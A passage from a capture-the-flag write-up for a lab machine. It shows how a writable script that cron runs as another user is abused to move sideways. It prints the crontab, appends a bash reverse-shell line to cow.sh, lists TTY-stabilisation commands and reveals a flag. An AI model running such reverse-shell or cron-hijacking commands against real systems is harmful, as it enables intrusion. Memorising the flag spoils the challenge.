 ```
toby@watcher:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/1 * * * * mat /home/toby/jobs/cow.sh
```

We got a script called `cow.sh` running at `jobs` directory on toby's home, let's check if we can modify this so we can get a shell as mat:

![](../images/Pasted%20image%2020250326155955.png)

We indeed can, let's modify it:

```
echo "/bin/bash -i >& /dev/tcp/IP/PORT 0>&1" >> /home/toby/jobs/cow.sh
```

After we set up a new listener with another port, we get this:

![](../images/Pasted%20image%2020250326160120.png)

There we go, we got our shell as `mat`, shell is a little unstable so we can stabilize it again:


```
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](../images/Pasted%20image%2020250326160254.png)

Got the flag 5 and another note:

```
mat@watcher:~$ cat flag_5.txt
FLAG{live_by_the_cow_die_by_the_cow}
```
